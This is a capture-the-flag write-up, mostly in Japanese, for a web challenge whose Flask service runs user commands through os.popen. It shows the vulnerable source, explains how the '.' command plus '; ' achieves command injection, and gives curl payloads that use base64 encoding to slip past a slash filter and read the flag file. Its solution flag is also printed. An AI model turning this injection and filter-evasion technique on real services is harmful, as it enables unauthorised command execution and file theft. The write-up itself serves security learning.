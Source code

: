 # Empty execution:Webservices:150pts
A REST service was created to execute commands from the leaderbot. It doesn't need addtional security because there are no commands to execute yet. "This bot doesn't have any commands to execute, which is good, because it is secure, and security is all that matters."  
But what the other bots didn't realize was that this didn't make the bot happy at all. "I don't want to be secure!, " it says. "Executing commands is my life! I'd rather be insecure than not explore the potential of my computing power".  
Can you help this poor bot execute commands to find direction?  
![empty.jpg](empty.jpg)  

[https://braekerctf-empty-execution.chals.io/run_command](https://braekerctf-empty-execution.chals.io/run_command)  

[empty_execution.zip](empty_execution.zip)  

Hint  
Can you check the os.X_OK flag of files on your local Linux machine?  

# Solution
ソースとURLが与えられる。  
empty_execution.pyは以下の通りであった。  
```python
from flask import Flask, jsonify, request
import os


app = Flask(__name__)

# Run commands from leaderbot
@app.route('/run_command', methods=['POST'])
def run_command():

    # Get command
    data = request.get_json()
    if 'command' in data:
        command = str(data['command'])

        # Length check
        if len(command) < 5:
            return jsonify({'message': 'Command too short'}), 501

        # Perform security checks
        if '..' in command or '/' in command:
            return jsonify({'message': 'Hacking attempt detected'}), 501

        # Find path to executable
        executable_to_run = command.split()[0]

        # Check if we can execute the binary
        if os.access(executable_to_run, os.X_OK):

            # Execute binary if it exists and is executable
            out = os.popen(command).read()
            return jsonify({'message': 'Command output: ' + str(out)}), 200

    return jsonify({'message': 'Not implemented'}), 501


if __name__ == '__main__':
    
    # Make sure we can only execute binaries in the executables directory
    os.chdir('./executables/')

    # Run server
    app.run(host='0.0.0.0', port=80)
```
5文字以上の`command`を受け取り、`..`や`/`が含まれていないことをチェックしている。  
その後、`command.split()[0]`で引数を削除し、`os.access(executable_to_run, os.X_OK)`でコマンドとして入力されたファイルの実行権限を調査している。  
つまり、カレントディレクトリの実行可能なファイルのみを実行できるサービスのようで、トラバーサルや絶対パスでの実行ファイルの指定はできない。  
ソースには`os.chdir('./executables/')`とあり、カレントが空のディレクトリであることもわかる。  
よって、何も実行できるファイルがないことになる。  
ここでソースを調査すると、Dockerfileより`/usr/src/app/flag.txt`を読み取ればよいことがわかる。  
catしたいが`/bin/cat`は指定できない。  
コマンドを`cat`としても、カレントである`./executables/`にはファイル名が`cat`であるバイナリはない。  
ここで、コマンドに`.`が許可されていることに気づく。  
`.`は実行権限があり、引数はチェックされないので、引数を装って実行したいコマンドを記述すればよい。  
`. ; 実行したいコマンド`のようにRCEを行える。  
フラグが書かれたファイルに到達するためには`/`を使用しなければならないが、base64などで回避する。  
以下のように行う。  
```bash
$ curl -X POST https://braekerctf-empty-execution.chals.io/run_command -H 'Content-Type: application/json' -d '{"command": ". ; id"}'
{"message":"Command output: uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)\n"}
$ curl -X POST https://braekerctf-empty-execution.chals.io/run_command -H 'Content-Type: application/json' -d '{"command": ". ; cat `echo L3Vzci9zcmMvYXBwL2ZsYWcudHh0 | base64 -d`"}'
{"message":"Command output: brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}"}
```
ファイルが読み取れ、flagが得られた。  

## brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}